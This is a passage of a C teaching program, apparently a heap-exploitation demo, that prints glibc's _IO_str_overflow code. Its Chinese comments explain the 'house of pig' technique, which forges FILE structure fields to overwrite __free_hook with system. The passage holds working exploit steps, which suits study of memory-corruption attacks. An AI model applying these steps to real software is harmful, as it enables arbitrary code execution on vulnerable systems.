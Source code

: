```c
                 "\t  size_t old_blen = _IO_blen (fp);\n"
                 "\t  size_t new_size = 2 * old_blen + 100;\n"
                 "\t  if (new_size < old_blen)\n"
                 "\t    return EOF;\n"
                 "\t  new_buf = malloc (new_size);\n"
                 "\t  if (new_buf == NULL)\n"
                 "\t    {\n"
                 "\t      /*\t  __ferror(fp) = 1; */\n"
                 "\t      return EOF;\n"
                 "\t    }\n"
                 "\t  if (old_buf)\n"
                 "\t    {\n"
                 "\t      memcpy (new_buf, old_buf, old_blen);\n"
                 "\t      free (old_buf);\n"
                 "\t      /* Make sure _IO_setb won't try to delete _IO_buf_base. */\n"
                 "\t      fp->_IO_buf_base = NULL;\n"
                 "\t    }\n\033[1;" PURPLE "m"
                 "\t  memset (new_buf + old_blen, '\\0', new_size - old_blen);\n"
                 "\n"
                 "\t  _IO_setb (fp, new_buf, new_buf + new_size, 1);\n"
                 "\t  fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);\n"
                 "\t  fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);\n"
                 "\t  fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);\n"
                 "\t  fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);\n"
                 "\n"
                 "\t  fp->_IO_write_base = new_buf;\n"
                 "\t  fp->_IO_write_end = fp->_IO_buf_end;\n"
                 "\t}\n"
                 "    }\n"
                 "\n"
                 "  if (!flush_only)\n"
                 "    *fp->_IO_write_ptr++ = (unsigned char) c;\n"
                 "  if (fp->_IO_write_ptr > fp->_IO_read_end)\n"
                 "    fp->_IO_read_end = fp->_IO_write_ptr;\n"
                 "  if (flush_only)\n"
                 "    return 0;\n"
                 "  else\n"
                 "    return c;\n"
                 "}\n\n");

    printf_color(GREEN, UNDEFINED, "注意红色部分的代码，这里会连续调用malloc、memcpy、free函数。\n");
    printf_color(GREEN, UNDEFINED, "house of pig想要在这里大做文章。\n");
    printf_color(GREEN, UNDEFINED, "首先需要通过tcache stashing unlink attack或其他方法向tcache中插入__free_hook附近的地址。\n");
    printf_color(GREEN, UNDEFINED, "然后在运行到此时，首先通过malloc分配出来，然后memcpy将指定位置的内容复制到__free_hook。\n");
    printf_color(GREEN, UNDEFINED, "最后通过free函数执行__free_hook中的内容，这里将__free_hook修改为system函数地址。\n");
    printf_color(GREEN, UNDEFINED, "通过代码我们可以知道，memcpy是将_IO_buf_base（结构体内偏移0x38）地址处的内容复制到__free_hook。\n");
    printf_color(GREEN, UNDEFINED, "而这个复制的原地址是我们可控的，需要我们在伪造的FILE结构体中设置。\n");
    printf_color(GREEN, UNDEFINED, "这里我们设置这个地址的值为第一个chunk的地址+0x20。\n");
    printf_color(GREEN, UNDEFINED, "............\n");

    fake_FILE[0x38 / 8] = chunk_1 + 0x20;

    printf_color(GREEN, UNDEFINED, "设置完成。之后我们需要注意malloc函数申请的chunk大小，其申请的大小需要经过计算。\n");
    printf_color(GREEN, UNDEFINED, "计算方式是：(_IO_buf_end - _IO_buf_base) * 2 + 100。\n");
    printf_color(GREEN, UNDEFINED, "这要求我们正确设置_IO_buf_end的值。如果使用0x100的tcache进行攻击，则end-base=0x46。\n");
    printf_color(GREEN, UNDEFINED, "据此设置_IO_buf_end为第一个chunk的地址+0x20+0x46（结构体内偏移0x40）。\n");
    printf_color(GREEN, UNDEFINED, "............\n");

    fake_FILE[0x40 / 8] = chunk_1 + 0x20 + 0x46;

```